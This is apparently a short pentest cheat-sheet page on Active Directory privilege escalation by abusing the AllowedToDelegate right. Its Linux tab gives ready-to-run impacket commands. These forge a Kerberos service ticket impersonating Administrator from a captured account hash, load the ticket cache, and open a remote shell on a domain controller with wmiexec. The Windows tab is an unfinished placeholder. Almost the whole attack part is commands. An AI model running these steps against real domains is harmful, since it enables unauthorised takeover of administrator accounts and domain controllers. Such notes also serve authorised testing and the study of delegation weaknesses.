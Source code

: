 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["AllowedToDelegate", "gMSADumper", "active driectory", "ad", "Windows", "privesc"]
---
```


---
### Privesc #1: Forge a Ticket

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn www/dc.example.com -hashes :<HASH> -impersonate Administrator <DOMAIN>/<USER>
```

```bash
# Export ccache
export KRB5CCNAME=Administrator.ccache
```

```bash
# Remote
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@dc.example.com
```

<small>*Note: impacket-wmiexec may not work*</small>

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}
TO-DO
{{< /tabcontent >}}

<br>